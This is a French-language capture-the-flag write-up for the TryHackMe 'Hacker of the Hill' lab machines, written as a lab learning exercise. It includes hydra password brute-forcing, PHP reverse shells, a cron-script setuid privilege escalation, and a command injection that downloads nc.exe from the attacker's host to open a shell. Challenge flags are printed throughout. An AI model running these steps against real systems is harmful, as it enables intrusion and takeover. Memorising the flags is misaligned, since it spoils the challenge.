

# Hacker of the Hill #

## Task 1 Introduction Hacker of the Hill ##

**Where else do you need to submit flags to in-order to win prizes and private bug-bounty invites?**

La réponse est : https://ctf.hacker101.com/  

## Task 2 Tutorial & Rules Accessing vulnerable machines ##

## Task 3 Easy Challenge ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A h1-easy.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 17:20 CEST
Nmap scan report for h1-easy.thm (10.10.153.233)
Host is up (0.033s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:75:95:c7:6d:f4:92:a0:0e:1e:60:b8:be:4d:92:b1 (RSA)
|   256 a2:11:fb:e8:c5:c6:f8:98:b3:f8:d3:e3:91:56:b2:34 (ECDSA)
|_  256 72:19:b7:04:4c:df:18:be:6b:0f:9d:da:d5:14:68:c5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/vbcms
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VeryBasicCMS - Home
8001/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: My Website
|_Requested resource was /?page=home.php
8002/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Learn PHP
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Wed, 06 Oct 2021 15:21:20 GMT
|     Content-Length: 0
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=7%D=10/6%Time=615DBEED%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,4B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Wed,\x2006\x20Oct\x2020
SF:21\x2015:21:20\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,4
SF:B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Wed,\x2006\x20Oct\x202021\x2015:2
SF:1:20\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,4B,"H
SF:TTP/1\.0\x20200\x20OK\r\nDate:\x20Wed,\x2006\x20Oct\x202021\x2015:21:20
SF:\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(GenericLines,67,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf
SF:-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/6%OT=22%CT=1%CU=33528%PV=Y%DS=2%DC=T%G=Y%TM=615DBF4
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   32.90 ms 10.9.0.1
2   33.05 ms h1-easy.thm (10.10.153.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.46 seconds

```

D'après le scan nmap on a plusieurs services : 

Le service SSH sur le port 22.   
Le service HTTP sur les ports  80,8000,8001,8002.   
Un service inconnu sur le port 9999.  

D'après le titre de la page sur le port 80, c'est la page par d'apache par défaut.    


Sur le port 8000 on a un CMS.   

```bash
im@kali:~/Bureau/tryhackme/write-up$ curl http://h1-easy.thm:8000/robots.txt
User-agent: *
Disallow: /vbcms
```

Dans robots.txt on a lien /vbcms désactivé.  


Avec le lien on a la fenêtre d'identification pour le cms.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l admin -P /usr/share/wordlists/rockyou.txt  -s 8000 h1-easy.thm  http-post-form "/vbcms/login:username=^USER^&password=^PASS^:Invalid"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-06 18:35:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://h1-easy.thm:8000/vbcms/login:username=^USER^&password=^PASS^:Invalid
[STATUS] 2485.00 tries/min, 2485 tries in 00:01h, 14341914 to do in 96:12h, 16 active
[STATUS] 2480.33 tries/min, 7441 tries in 00:03h, 14336958 to do in 96:21h, 16 active
[STATUS] 1681.43 tries/min, 11770 tries in 00:07h, 14332629 to do in 142:05h, 16 active
[STATUS] 975.80 tries/min, 14637 tries in 00:15h, 14329762 to do in 244:46h, 16 active

[8000][http-post-form] host: h1-easy.thm   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-06 19:04:56
```

On crack le mot de passe.  
Hydra trouve le mot de passe qui est : admin.   

Les identifiant sont : admin:admin   

  

Avec les identifiants on arrive sur une interface d'administration ou on peut éditer des pages.   

  

Dans les éditions des pages ont peut exécuter du php, je met un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le port 1234 pour avoir un shell.    

On mette à jour la page et on clique sur view.  

``tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.153.233.
Ncat: Connection from 10.10.153.233:33768.
Linux web-serv 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:59:10 up  2:48,  0 users,  load average: 0.00, 0.00, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(serv1) gid=1000(serv1) groups=1000(serv1),43(utmp)
/bin/sh: 0: can't access tty; job control turned off

$ cd /
$ grep -r "THM{" 2>/dev/null
var/www/serv4/index.php:THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}
```

**What is the user flag for the serv3 user?**

On a un shell on connait les premières lettres du flag on fait une recherche et on trouve le premier flag.   
Le flag est : THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}    
On valide sur hacker101 et on a : BACK2THM{a55609830258a3e1eac9123812b9c68b}    

```bash
cat: /etc/cron: No such file or directory
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /home/serv3/backups/backup.sh
```

On voit une tache cron est exécutée dans /home/serv3/backups/backup.sh   

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'  
serv1@web-serv:/$ cat /home/serv3/backups/backup.sh
cat /home/serv3/backups/backup.sh
#!/bin/bash
mv /backups/* /home/serv3/backups/files

ls -al /home/serv3/backups/backup.sh
-r-xr-xr-x 1 serv3 serv3 52 Feb 15  2021 /home/serv3/backups/backup.sh
```

On voit le script bouge les fichiers dans un autre répertoire, j'ai pas l'autorisation de modifier le fichier.    

```bash
cd /etc/apache2/sites-enabled/
serv1@web-serv:/etc/apache2/sites-enabled$

000-default.conf  serv1.conf  serv2.conf  serv3.conf
serv1@web-serv:/etc/apache2/sites-enabled$ cat serv3.conf
cat serv3.conf
<VirtualHost *:8002>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com
	
	AssignUserId serv3 serv3
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/serv3/public

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/serv3/public>
		Options -MultiViews
		RewriteEngine On
		RewriteRule ^(js)($|/) - [L]
		RewriteRule ^ index.php
	</Directory>

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

On regarde la configuration du site serve3.conf, on remarque qu'il fonctionne sur le port 8002.   


  
 

On va sur le site sur le port 8002, on tombe sur un site pour essayer du php.   
Dans la section pour tester le code, on fait exécuter une commande et en retour on a le bon résultat.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.  

 

On met un reverse shell et on l'exécute.  

```bash
serv3@web-serv:/$ cd /home/serv3/backups
cd /home/serv3/backups
serv3@web-serv:/home/serv3/backups$ ls
ls
backup.sh  files
serv3@web-serv:/home/serv3/backups$ chmod 777 backup.sh	
chmod 777 backup.sh
serv3@web-serv:/home/serv3/backups$ echo 'chmod 4777 /bin/bash' >> backup.sh
echo 'chmod 4777 /bin/bash' >> backup.sh
```

On va on notre scripte qui exécuter avec le crontab.  
On lui demande de mettre les droits setuid sur le fichier /bin/bash.   
On attend environ 1 min.   

```bash
serv3@web-serv:/home/serv3/backups$ ls -al /bin/bash
ls -al /bin/bash
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 /bin/bash

serv3@web-serv:/home/serv3/backups$ /bin/bash -p
/bin/bash -p
bash-4.4# id
id
uid=1002(serv3) gid=1002(serv3) euid=0(root) groups=1002(serv3)
cat /root/root.txt
THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}
```

On exécute /bin/bash et on obtient un shell root.   
On lit le fichier root.txt dans root et on obtient le flag.   
Le flag est : THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}  

**What is the root.txt flag?**

Le flag root est : BACK2THM{ff315ec593432fb5d85726c34530c5c6}   

**What is the user flag for the serv1 user?**

```bash
cat /usr/games/fortune
VEhNe05HSTROems0T0dJM01ERTRORFV6TldZd05qTXlaalkxfQo=

bash-4.4# cat /usr/games/fortune | base64 -d
cat /usr/games/fortune | base64 -d
THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}
```

Dans le fichier fortune on trouve le flag en base64.   
On le decode et le flag est : THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}   

Le flag serv1 est : BACK2THM{a77bc034424d18cc07567eb79c5e205c}   

**What is the user flag for the serv2 user?**

```bash
bash-4.4# cat /var/lib/rary
cat /var/lib/rary
 _____ _   _ __  __   ______       _    __   __          _              ____ _ 
|_   _| | | |  \/  | / / __ )  ___| |_  \ \ / /__  _   _( )_ __ ___    / ___| |
  | | | |_| | |\/| || ||  _ \ / _ \ __|  \ V / _ \| | | |/| '__/ _ \  | |  _| |
  | | |  _  | |  | < < | |_) |  __/ |_    | | (_) | |_| | | | |  __/  | |_| | |
  |_| |_| |_|_|  |_|| ||____/ \___|\__|___|_|\___/ \__,_| |_|  \___|___\____|_|
                     \_\             |_____|                      |_____|      
           _   _____ _     _         ___         _   _       _          _    
  __ _  __| | |_   _| |__ (_)___    |_ _|___    | \ | | ___ | |_       / \   
 / _` |/ _` |   | | | '_ \| / __|    | |/ __|   |  \| |/ _ \| __|     / _ \  
| (_| | (_| |   | | | | | | \__ \    | |\__ \   | |\  | (_) | |_     / ___ \ 
 \__,_|\__,_|___|_| |_| |_|_|___/___|___|___/___|_| \_|\___/ \__|___/_/   \_\
           |_____|             |_____|     |_____|             |_____|       
      _   _           _   __   
     | | | | __ _ ___| |__\ \  
     | |_| |/ _` / __| '_ \| | 
     |  _  | (_| \__ \ | | |> >
 ____|_| |_|\__,_|___/_| |_| | 
|_____|                   /_/  
```

On lit le fichier rary et on a le flag : THM{Bet_You're_Glad_This_Is_Not_A_Hash}

Le flag pour serv2 est : BACK2THM{84c31ff2c6f1b3b793fb919dc19ebbb7}   

## Medium Challenge ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A h1-medium.thm -p- -Pn
[sudo] Mot de passe de tim : 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 22:25 CEST
Nmap scan report for h1-medium.thm (10.10.92.25)
Host is up (0.034s latency).
Not shown: 65512 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: PhotoStore - Home
81/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Network Monitor
82/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-10-06 20:28:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: troy.thm0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: troy.thm0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TROY
|   NetBIOS_Domain_Name: TROY
|   NetBIOS_Computer_Name: TROY-DC
|   DNS_Domain_Name: troy.thm
|   DNS_Computer_Name: TROY-DC.troy.thm
|   DNS_Tree_Name: troy.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2021-10-06T20:29:44+00:00
| ssl-cert: Subject: commonName=TROY-DC.troy.thm
| Not valid before: 2021-10-05T20:07:53
|_Not valid after:  2022-04-06T20:07:53
|_ssl-date: 2021-10-06T20:30:21+00:00; +2s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
9999/tcp  open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Wed, 06 Oct 2021 20:28:15 GMT
|     Content-Length: 0
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Wed, 06 Oct 2021 20:28:14 GMT
|_    Content-Length: 0
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49730/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=7%D=10/6%Time=615E06DD%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,4B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Wed,\x2006\x20Oct\x2020
SF:21\x2020:28:14\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,4
SF:B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Wed,\x2006\x20Oct\x202021\x2020:2
SF:8:15\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,4B,"H
SF:TTP/1\.0\x20200\x20OK\r\nDate:\x20Wed,\x2006\x20Oct\x202021\x2020:28:15
SF:\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(GenericLines,67,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf
SF:-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: TROY-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-10-06T20:29:43
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   35.72 ms 10.9.0.1
2   35.21 ms h1-medium.thm (10.10.92.25)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.22 seconds

```

D'arpès le scan de nmap ou est sur windows avec les services HTTP sur le port 81 et 82.  
On remarque aussi un partage smb, et une prise a distance de windows.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L  h1-medium.thm 
Enter WORKGROUP\tim's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```

Le login anonymous est desactivé, il y a rien.   


On va la page principale sur le port 80.    
On se fait un nouveau compte.   
On arrive sur une page ou on peut mettre des photos.   


On met une photo.  
On remarque que lien pour voir la photo est le nom du domaine + le nom d'utilisateur + le nom de la photo.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://h1-medium.thm/script.js
$('input[name="username"]').keyup(function(){
    let username = $(this).val();
    $(this).val( username.replace(/([^a-zA-Z0-9])/g,'') );
});
```

On voit le scripte script.js supprime des caractères dans les entrées.  


On block le scripte.
Sinon on prent un blockeur de script.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

On écoute notre vpn pour voir si on reçois pas un ping.   


On change le nom pour envoyer un ping.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:58:30.882909 IP h1-medium.thm > kali: ICMP echo request, id 1, seq 1, length 40
09:58:30.882968 IP kali > h1-medium.thm: ICMP echo reply, id 1, seq 1, length 40
09:58:31.896137 IP h1-medium.thm > kali: ICMP echo request, id 1, seq 2, length 40
09:58:31.896175 IP kali > h1-medium.thm: ICMP echo reply, id 1, seq 2, length 40
09:58:32.911859 IP h1-medium.thm > kali: ICMP echo request, id 1, seq 3, length 40
09:58:32.911897 IP kali > h1-medium.thm: ICMP echo reply, id 1, seq 3, length 40
09:58:33.927509 IP h1-medium.thm > kali: ICMP echo request, id 1, seq 4, length 40
09:58:33.927547 IP kali > h1-medium.thm: ICMP echo reply, id 1, seq 4, length 40
```

On a en retour notre ping.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/timruff/nc.exe/raw/master/nc.exe -q
```

On télécharge netcat pour windows.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

tim@kali:~/Bureau/tryhackme/write-up$ curl -H "Cookie: token=eyJ1c2VybmFtZSI6ImFkbWluIiwiY29va2llIjoiN2YyN2U2NzA1ODA4MTgyZTlkNGUwNGUxMWViOWZmODgifQ%3D%3D" -XPOST http://h1-medium.thm/profile -d 'username=admin | powershell curl 10.9.228.66:8000/nc.exe -o nc.exe'

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.63.108 - - [07/Oct/2021 10:11:08] "GET /nc.exe HTTP/1.1" 200 -

```

On met un serveur http pour récuperer le nc.exe.  
On récuperère nc.exe.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le pour pour avoir le shell.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.63.108.
Ncat: Connection from 10.10.63.108:49903.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\agamemnon\Desktop\WebApp\public> 
PS C:\Users\agamemnon\Desktop\WebApp\public\users> whoami
whoami
troy\agamemnon
```
 
**What is the flag for the Agamemnon user?**


On exécute le reverse shell et on a le shell.    
On est sous l'utilisateur agamemnon.   

```bash
PS C:\Users\agamemnon\Desktop> ls
ls


    Directory: C:\Users\agamemnon\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       19/02/2021     21:17                WebApp                                                                
-a----       19/02/2021     18:55             37 flag.txt                                                              


PS C:\Users\agamemnon\Desktop> type flag.txt
type flag.txt
THM{78ab0f3ab9decf59899148c6ba7e07dc}
```

Dans le bureau d'agamemnon on trouve un fichier flag.txt qui contient le flag.   
